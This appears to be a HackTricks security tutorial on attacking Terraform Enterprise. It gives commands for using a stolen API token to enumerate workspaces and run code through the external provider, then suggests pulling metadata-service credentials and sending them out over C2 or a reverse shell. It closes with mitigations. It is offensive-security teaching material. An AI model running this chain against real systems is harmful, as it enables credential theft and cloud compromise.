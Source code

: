 # Terraform Enterprise Security

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

[**Terraform Enterprise**](https://www.terraform.io/enterprise) **is a self-hosted version of Terraform Cloud**, allowing organizations to maintain their own private instance of Terraform. If it's **deployed** to a **VM** from a **cloud** provider we may be able to access the **instance metadata** service and leverage those credentials for further attacks.

"By default, Terraform Enterprise **does not prevent Terraform operations from accessing the instance metadata service**, which may contain IAM credentials or other sensitive data" ([source](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access))

{% hint style="info" %}
While the focus of this article is on targeting the metadata service, it is worth noting that gaining code execution inside a Terraform run may provide other avenues for attack. For example, environment variables could be leaked which may contain sensitive credentials.
{% endhint %}

## Remote (Code) Execution <a href="#remote-code-execution" id="remote-code-execution"></a>

For many engineers, their first experience with Terraform was locally on their workstations. When they invoked a `terraform apply` or `terraform plan` all of that activity took place on the local machine (reaching out to cloud APIs, tracking state, etc.)

An exciting feature of Terraform Enterprise (and Cloud) is the idea of [**Remote Execution**](https://www.terraform.io/cloud-docs/overview#remote-terraform-execution), wherein all those **operations take place server-side**. In **Terraform Cloud the execution takes place in "disposable virtual machines"**. In [**Terraform Enterprise**](https://www.terraform.io/enterprise/install/interactive/installer#alternative-terraform-worker-image) **however, it takes place in "disposable Docker containers".**

This introduces an interesting opportunity; If you compromise credentials to initiate a `plan` or `apply` operation (or otherwise have access to them. I.E insider threat) we can **execute code in a Docker container on the Terraform Enterprise server**.

{% hint style="info" %}
It is possible to disable Remote Execution via a configuration however this is [discouraged](https://www.terraform.io/cloud-docs/run#disabling-remote-operations). "Many of Terraform Cloud's features rely on remote execution, and are not available when using local operations. This includes features like Sentinel policy enforcement, cost estimation, and notifications."
{% endhint %}

### Walkthrough <a href="#walkthrough" id="walkthrough"></a>

#### Acquire a Terraform API Token <a href="#acquire-a-terraform-api-token" id="acquire-a-terraform-api-token"></a>

To begin, you'll first need to 'acquire' a [Terraform API Token](https://www.terraform.io/cloud-docs/users-teams-organizations/api-tokens). These **tokens** can be identified by the **`.atlasv1.` substring** in them.

As for where you would get one, there are a number of possible locations. For example, developer's may have them locally on their **workstations** in `~/.terraform.d/`, you may find them in CI/CD **pipelines**, inappropriately stored in **documentation**, pull them from a secrets vault, create one with a developer's stolen credentials, etc.

#### Identify the Organization and Workspace Names <a href="#identify-the-organization-and-workspace-names" id="identify-the-organization-and-workspace-names"></a>

With access to a valid API token, we now need to **find an Organization and Workspace** we can use to be nefarious. The good news is that this information is queryable using the token. We can use a tool such as [jq](https://stedolan.github.io/jq/) to parse and display the JSON.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations | jq
```

![](<../../.gitbook/assets/image (77).png>)

Next, we need to identify a [workspace](https://www.terraform.io/cloud-docs/api-docs/workspaces) we can use. Again, this can be quereyed using the organization `id` we gathered in the previous step.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations/<Organization ID>/workspaces | jq
```

![](<../../.gitbook/assets/image (11) (1) (1).png>)

#### Configure the Remote Backend <a href="#configure-the-remote-backend" id="configure-the-remote-backend"></a>

Now that we have the organization and workspace id's from the previous step, we can **configure the remote backend**. To do this, you can use [this example](https://github.com/hashicorp/tfc-getting-started/blob/main/backend.tf) as a template with one exception. We will **add a `hostname`** value which is the hostname of the Terraform Enterprise instance. You can store this in a file named `backend_config.tf`.

{% code title="backend_config.tf" %}
```json
terraform {
  backend "remote" {
    hostname = "{{TFE_HOSTNAME}}"
    organization = "{{ORGANIZATION_NAME}}"

    workspaces {
      name = "{{WORKSPACE_NAME}}"
    }
  }
}
```
{% endcode %}

#### Initialize the Backend <a href="#initialize-the-backend" id="initialize-the-backend"></a>

With the backend configuration file created we can initialize the backend with the following command.

```bash
terraform init --backend-config="token=$TFE_TOKEN"
```

If everything has worked as it should, you should get a `Terraform has been successfully initialized` notification. To test this, you can perform a `terraform state list` to list the various state objects.

#### Executing Code <a href="#executing-code" id="executing-code"></a>

There are several ways this can be done (such as using a [local-exec provisioner](https://www.terraform.io/language/resources/provisioners/local-exec)) however, for our purposes we will be using the [External Provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

"_`external` is a special provider that exists to provide an interface between Terraform and external programs_".

What this means is that we can **execute code during the Terraform `plan`** or `apply` operations by specifying a program or script to run.

To do this, we will create an `external provider` in our existing `backend_config.tf` file (if you already have an existing Terraform project you can add this block to those existing files).

{% code title="backend_config.tf" %}
```bash
...

data "external" "external_provider" {
    program = ["python3", "wrapper.py"]
}

output "external_provider_example" {
    value = data.external.external_provider
}
```
{% endcode %}

You may be wondering what the `wrapper.py` file is. In order to use the `external` provider, we must "implement a specific protocol" ([source](https://registry.terraform.io/providers/hashicorp/external/latest/docs)), which is JSON. To do this, we will wrap the result of the code execution in JSON so it can be returned.

{% hint style="info" %}
The wrapper script is not strictly required if you aren't interested in getting the output. If your goal is simply to execute a C2 payload, you can include the binary in the project directory and then execute it.

Check for [**more payloads here**](./#using-an-external-provider).
{% endhint %}

Wrapping the output in JSON allows us to get the **response output**.

Our wrapper script looks like the following (feel free to change to your needs).

{% code title="wrapper.py" %}
```python
import json
import os

stream = os.popen('id')
output = stream.read()
result = { "result" : output }

print(json.dumps(result))
```
{% endcode %}

#### Terraform Plan <a href="#terraform-plan" id="terraform-plan"></a>

Now that the wrapper script is created (and modified), we can execute code via **`terraform plan`**. This is a **non-destructive action**, which will evaluate our local configuration vs's the remote state. In addition, it will **execute our remote provider and return the result to us**.

![](<../../.gitbook/assets/image (58).png>)

{% hint style="warning" %}
Upon executing `terraform plan` you may encounter errors for various reasons depending upon the remote state. Those errors will need to be handled on a case by case basis. Typically this involves modifying your `.tf` files to suit the remote state. This can typically be figured out based on the results of `terraform state pull`.

From here, we can modify our wrapper script to do a variety of things such as (the purpose of this article) reaching out to the metadata service and pulling those credentials.
{% endhint %}

{% hint style="info" %}
The results of this run are logged elsewhere. Please do not leak secrets or other sensitive information to parties who do not have a need for the information. A more efficient method would be to use a C2 platform such as [Mythic](https://docs.mythic-c2.net/) (or even just a TLS encrypted reverse shell) to exfiltrate the credentials.
{% endhint %}

## Attack Prevention <a href="#attack-prevention" id="attack-prevention"></a>

It is worth noting that there are two potential methods to mitigate this attack. The first is the configuration of [restrict\_worker\_metadata\_access](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access) in the Terraform Enterprise settings. This is **not** the default, meaning that out of the box Terraform operations have access to the metadata service and its credentials.

The second option would depend upon the cloud provider, but options to harden or secure the Metadata Service can also be used. For example, [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) in an AWS situation would prevent the [Docker container from reaching the Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro\_metadata\_service/).

Note

Nothing should prevent these two methods from working at the same time. It is a good idea to require IMDSv2 of all EC2 instances in your environment.

## References

* [https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/](https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
